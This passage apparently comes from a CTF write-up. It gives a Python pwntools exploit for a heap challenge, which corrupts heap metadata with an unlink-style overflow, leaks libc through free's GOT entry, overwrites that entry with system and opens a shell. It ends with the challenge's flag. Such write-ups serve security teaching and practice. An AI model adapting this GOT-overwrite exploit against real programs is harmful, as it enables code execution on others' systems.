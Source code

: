 ```python
def show(idx, wait=False):
    if(wait):
        r.recvuntil('4:edit')
        r.recvuntil('4:edit', timeout=1)
    else:
        r.recvuntil('4:edit')
    r.sendline('3')
    r.recvuntil('input id\n')
    r.sendline(str(idx))
def edit(idx, name, length):
    r.recvuntil('4:edit')
    r.sendline('4')
    r.recvuntil('input id')
    r.sendline(str(idx))
    r.recvuntil('your data')
    if(len(name) == length):
        r.send(name)
    else:
        r.sendline(name)
heap_form = 0x6020c0
free_got = 0x0000000000602018
free = 0x00000000000844f0
system = 0x0000000000045390 
create(0x98, '1') # 0
create(0x98, '1') # 1
create(0x98, '1') # 2
create(0x98, '1'*0x98) # 3
create(0x98, '1') # 4
edit(3, (p64(0x90 + 0x10 + 0x10) + p64(0x90) + p64(heap_form + 0x18 - 0x18) + p64(heap_form + 0x18 - 0x10)).ljust(0x90, 'a') + p64(0x90) + '\xa0', 0x98 + 1)
delete(4)
edit(3, p64(free_got)[:4], 4)
show(0, True)
libc = r.recvuntil('1:creat')[:-7]
print (len(libc))
libc = u64(libc.strip().ljust(8, '\x00'))
print ('libc : ', hex(libc))
real_system = system + libc - free
print ('system : ', hex(real_system))
edit(0, p64(real_system)[:-2], 6)
r.recvuntil('4:edit')
r.sendline('/bin/sh\x00')
r.interactive()
```

flag : SUCTF{L1gFhAuay4qe29EJrP1MyVWoTGSXJiAzDFdnZLZtTbHKeP2j6bLc}

## crypto

### Enjoy (b04902036)
